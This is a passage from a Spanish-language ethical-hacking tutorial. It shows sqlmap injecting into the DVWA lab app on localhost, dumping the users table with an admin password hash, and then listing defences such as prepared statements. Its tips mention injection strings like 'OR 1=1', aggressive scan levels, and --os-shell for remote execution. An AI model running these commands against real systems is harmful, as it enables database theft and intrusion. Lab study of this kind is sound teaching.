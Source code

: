 Resultado:

```
[*] guestbook
[*] users
```

#### 4. Extrae los datos de `users`

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=abcdef12345; security=low" -D dvwa -T users -C user,password --dump
```

Resultado:

```
user      | password
------------------------------
admin     | 5f4dcc3b5aa765d61d8327deb882cf99
```

(`5f4dcc3b5aa765d61d8327deb882cf99` es el hash de `password`)

---

### 🔒 ¿Cómo se protege una aplicación?

- Usar **sentencias preparadas (Prepared Statements)**
- Nunca construir SQL directamente con `+` o variables crudas
- Validar y sanitizar entradas
- No mostrar errores SQL al usuario
- Configurar correctamente los permisos de la base de datos

---

### 🧠 Consejos finales

✅ **Siempre prueba primero manualmente** (con `'`, `OR 1=1`, etc.)

✅ Usa `--level=5` y `--risk=3` para análisis más agresivos

✅ `--os-shell` o `--file-write` si sospechas que hay RCE

---

[🔼](#índice)

---

| **Inicio**         | **atrás 18**                                    | **Siguiente 20**                                                                 |
| ------------------ | ----------------------------------------------- | -------------------------------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_18_Hacking_Escalada_de_Privilegios.md) | [⏩](./7_20_Introduccion_a_Ciberseguridad_Prevencion_de_Ataques_Informaticos.md) |
